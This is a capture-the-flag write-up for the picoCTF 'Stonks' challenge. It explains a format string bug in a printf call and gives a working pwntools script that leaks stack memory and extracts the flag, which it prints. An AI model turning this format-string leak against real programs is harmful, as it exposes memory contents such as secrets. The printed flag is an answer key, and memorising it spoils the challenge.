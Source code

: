 # Stonks

**Author:** [yairp03](https://github.com/yairp03)  
**Category:** Binary Exploitation  
**Points:** 20

# Challenge

## Description

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](./vuln.c) `nc mercury.picoctf.net 33411`

## Source

[vuln.c](./vuln.c) (C source)

# Solution

In this challenge, we are given a [C source file](./vuln.c) that has a vulnerability. Looking at the code, we see this part:

```c
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```

The program asks for a user input, and then prints it using printf. This is vulnerable to a [format string attack](https://owasp.org/www-community/attacks/Format_string_attack). Leveraging this vulnerability, we can print out values from the stack. Let's do it with [this python script](./script.py) using the [pwntools](https://docs.pwntools.com/en/stable/) library:

```python
from pwn import *

# Establish connection
conn = remote('mercury.picoctf.net', 33411)

# Route to the exploit
conn.sendlineafter('2) View my portfolio\n', '1')
conn.recvuntil('What is your API token?\n')

# Exploit
conn.send('%x' + '.%x' * 40 + '\n')

# Route to the leak
conn.recvuntil('Buying stonks with token:\n')
# Get the data
stack = conn.recvline(False).decode()

# Parse the data
result = b''
for h in stack.split('.'):
    result += p32(int(h, 16))

# Extract the flag
flag = result[result.find(b'picoCTF{'):result.find(b'}') + 1].decode()

# Print the flag
print(flag)
```

**The Flag:** `picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}`
